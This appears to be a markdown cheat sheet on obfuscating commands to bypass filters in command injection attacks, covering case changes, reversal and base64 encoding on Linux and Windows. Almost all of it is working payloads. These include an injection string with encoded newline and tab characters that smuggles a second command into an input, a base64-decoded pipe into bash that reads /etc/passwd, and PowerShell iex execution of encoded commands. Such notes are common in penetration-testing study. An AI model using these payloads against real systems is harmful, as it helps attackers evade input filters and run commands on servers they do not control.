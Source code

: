 ## Case Manipulation

Capitalize some or all letters

**Windows
- Case insensitive
```
WhOaMi
```

**Linux
- Case sensitive
- Must turn command into all lowercase
```
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```
- Fails due to spaces
- %09 for tab
```
127.0.0.1%0a$(tr%09"[A-Z]"%09"[a-z]"<<<"WhOaMi")
```

## Reversed Commands

**Linux
```
echo 'whoami' | rev
$(rev<<<'imaohw')
```
- If using a character filter, we will have to reverse them too

**Windows
```
"whoami"[-1..-20] -join ''
iex "$('imaohw'[-1..-20] -join '')"
```


## Encoded Commands

**base64
```
echo -n 'cat /etc/passwd | grep 33' | base64
bash<<<$(base64%09-d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

**Windows
```
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

**Linux
```
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```
